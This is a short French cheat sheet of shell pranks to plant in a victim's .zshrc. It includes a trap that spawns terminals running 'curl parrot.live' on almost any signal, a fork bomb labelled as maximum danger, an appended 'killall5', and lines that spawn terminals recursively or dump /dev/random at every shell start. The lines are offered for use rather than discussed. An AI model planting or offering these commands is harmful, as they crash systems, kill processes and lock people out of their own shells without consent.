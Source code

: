 trap 'gnome-terminal -- zsh -c "source .zshrc && curl parrot.live"' ABRT ALRM BUS CHLD CLD CONT FPE HUP ILL INT IO KILL PIPE POLL PROF PWR QUIT SEGV STKFLT 
curl parrot.live

```nano .zshrc``` -> coller a la toute fin du fichier -> CTRL+O entree et CTRL+X
```source .zshrc```


[------------------------------------------------------------]


dans la racine (dossier home)
```touch .reset```

Pour enlever -> ```rm -rf .reset```

[-------------------------------------------------------------]
/!\ DANGER MAXIMAL /!\

```:(){ :|:& };:```

[-------------------------------------------------------------]
/!\ DANGER MAIS CA VA /!\

```echo "killall5" >> .zshrc && source .zshrc```

[-------------------------------------------------------------]
```echo "gnome-terminal" >> .zshrc && source .zshrc```


[-------------------------------------------------------------]
```echo "gnome-terminal && cat /dev/random" >> .zshrc && source .zshrc```

[-------------------------------------------------------------]
```echo "gnome-terminal && curl parrot.live" >> .zshrc && source .zshrc```

[-------------------------------------------------------------]
```echo "gnome-terminal && curl " >> .zshrc && source .zshrc```
